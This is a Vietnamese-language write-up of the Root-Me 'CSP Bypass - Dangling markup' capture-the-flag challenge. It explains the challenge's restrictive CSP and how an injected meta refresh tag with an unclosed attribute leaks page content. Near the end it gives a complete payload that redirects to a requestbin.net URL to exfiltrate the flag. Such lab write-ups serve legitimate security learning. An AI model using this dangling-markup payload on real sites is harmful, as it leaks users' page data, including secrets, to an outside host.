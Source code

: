 # CSP Bypass - Dangling markup

Oai lâu lắm rồi mới ngồi chơi lại rootme thấy có 3 challange mới về CSP làm thử xem sao.
![img 1](https://github.com/Cl0wnK1n9/randomChall/blob/main/img/a.JPG)
Okay cùng lướt qua nào! Đầu tiên chúng ta có input và input sẽ được reflect lên `http://challenge01.root-me.org/web-client/ch29/page?user=[input]`. Đầu tiên phải xem CSP được cấu hình như nào đã rồi tìm cách làm trò con bò tiếp. Thông tin cấu hình của CSP có thể được tìm thấy ngay trong source HTML thông qua thẻ meta, tuy nhiên CSP cũng có thể được cấu hình bên phía server và để biết được cấu hình thì phải đọc header `Content-Security-Policy:` của gói tin response. 
```connect-src 'none'; 
font-src 'none'; 
frame-src 'none'; 
img-src 'self'; 
manifest-src 'none'; 
media-src 'none'; 
object-src 'none'; 
script-src 'none'; 
worker-src 'none'; 
style-src 'self'; 
frame-ancestors 'none'; 
block-all-mixed-content;
```
Đây chính là cấu hỉnh của challange. Nhìn qua thì chall đã block hết việc thực thi script cũng như load các resource như iframe( vẫn có thể sử dụng các thẻ này nhưng nội dung sẽ bị chặn => hopeless), có 2 thẻ duy nhất dùng được là img- chỉ load được các resource từ chính chall, và style cũng tương tự như img. Ban đầu mình bị mindset đây là một bài về XSS phải tìm cách để thực thi 1 đoạn js. Tuy nhiên sau 1 thời gian tìm cách bypass cái CSP thì mình chính thức bỏ cuộc việc thực thi js vậy giờ phải làm sao? Sau đó mình quyết định ĐI XEM PHIM dạ vâng chính xác là đi xem anime trên vuighe dù gì mình cũng đang lười vcđ ạ. Sau khi bật được vuighe lên thì bỗng dưng trong đầu mình nảy ra 1 ý tưởng. Đó là sử dụng thẻ `<meta>` vì trước trên vuighe mình cũng đã report 1 lỗi insecure redirect bằng cách inject vào trong thẻ meta của họ. Thẻ `meta` là thẻ dùng để định nghĩa metadata cho trang web hay dịch ra tiếng việt thì nó là `định nghĩa dữ liệu cho dữ liệu` .-. *OMG lú*. Với thẻ `meta` mình có thể thực hiện redirect trang web sau một khoảng thời gian nhất định bằng thuộc tính `http-equiv="refresh"` và thuộc tính `content="[time];[url]"`. Cơ mà làm thế nào để đọc được flag? Bạn tưởng tượng như này nhé giả sử mình gửi 1 get requests đến server của mình vậy `url` sẽ như này `https://xviedo.com?xxx=[content]` và trong HTML nếu bạn mở giá trị của thuộc tính bằng `'` hay `"` thì bạn cũng phải kết thúc bằng chính ký tự đó vậy nên mình sẽ mở giá trị của content bằng `'` và toàn bộ đoạn đằng sau sẽ được nhận làm giá trị của get param.

final payload: `http://challenge01.root-me.org/web-client/ch29/page?user=<meta name="ahihi"  HTTP-EQUIV="refresh" content="0;http://requestbin.net/r/2twr05yb?a= `
result: 
![img 2](https://github.com/Cl0wnK1n9/randomChall/blob/main/img/b.JPG)

# NOTE: 
Điều này không làm được trên Chrome do chrome không cho phép việc redirect bằng get mà có các ký tự xuống dòng .
